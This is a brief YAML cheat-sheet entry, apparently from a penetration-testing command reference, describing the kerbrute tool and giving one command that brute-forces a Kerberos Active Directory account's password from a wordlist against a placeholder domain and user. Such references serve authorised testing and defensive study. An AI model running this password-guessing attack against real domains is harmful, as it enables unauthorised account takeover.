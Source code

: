 ```yaml
---
description: |
  ropnop's kerbrute bruteforces and enumerates valid Active Directory accounts through Kerberos Pre-Authentication. The following command will bruteforce an account against a list of provided passwords given a username.

  Command Reference:

  	Domain: test.local

  	Password List: passwords.txt

  	Username: john
items:
  Username:
    - code: |
        kerbrute_linux_amd64 bruteuser -d test.local passwords.txt john
filters:
  Kerberos:
    - code: |
        empty
---
```

